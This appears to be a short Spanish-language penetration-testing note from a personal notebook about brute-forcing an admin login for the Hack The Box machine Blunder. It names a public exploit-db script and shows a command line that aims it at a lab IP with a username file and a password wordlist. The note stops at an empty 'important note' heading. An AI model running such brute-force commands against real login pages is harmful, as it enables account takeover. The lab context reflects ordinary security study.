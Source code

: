 

## DESCRIPTION

Esta versión permite hacer fuerza bruta dado un usuario.

#### Mas información
* https://0xdf.gitlab.io/2020/10/17/htb-blunder.html#priv-www-data--huge
* Script manual en video de S2vitar

## EXPLOITATION

1. Se ha usado el script: php/webapps/48942.py
![[Pasted image 20230302194711.png]]

```
python3 48942.py -l <<URL>> -u <<FICHERO DE UN SOLO USUARIO>> -p <<DICCIONARIO DE CONTRASEÑAS>>

#Ejemplo
python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p diccionario-web-with-number.txt

```

## MACHINES

* Hack The Box: Blunder

**!!NOTA IMPORTANTE!!** 